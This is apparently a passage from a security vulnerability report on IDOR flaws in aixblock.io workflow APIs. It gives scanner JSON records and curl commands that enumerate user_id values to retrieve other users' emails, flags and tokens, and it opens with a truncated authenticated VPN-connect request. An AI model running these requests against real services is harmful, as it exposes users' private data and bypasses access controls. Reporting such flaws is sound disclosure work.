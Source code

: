 ```bash
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <session_token>" \
  -d '{"action": "connect", "target": "internal", "method": "vpn"}'
```

---

## **⚠️ HIGH SEVERITY VULNERABILITIES - LIVE EVIDENCE**

### **4. IDOR - Workflow Flags**
```json
{
  "timestamp": "2025-10-21T12:15:09.167805",
  "type": "IDOR",
  "url": "https://workflow.aixblock.io/api/v1/flags?user_id=1",
  "payload": "user_id=1",
  "response_code": 200,
  "severity": "HIGH",
  "evidence": "Sensitive data pattern: email",
  "exploitability": "HIGH"
}
```

**Real-World Exploitation:**
```bash
# Test IDOR access
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=1"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=2"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=999"

# Expected Response:
{
  "user_id": 1,
  "email": "user1@example.com",
  "flags": ["premium", "beta_access"],
  "permissions": ["read", "write"]
}
```

### **5. IDOR - Workflows**
```json
{
  "timestamp": "2025-10-21T12:21:11.141433",
  "type": "IDOR",
  "url": "https://app.aixblock.io/api/v1/workflows?user_id=1",
  "payload": "user_id=1",
  "response_code": 200,
  "severity": "HIGH",
  "evidence": "Sensitive data pattern: token",
  "exploitability": "HIGH"
}
```
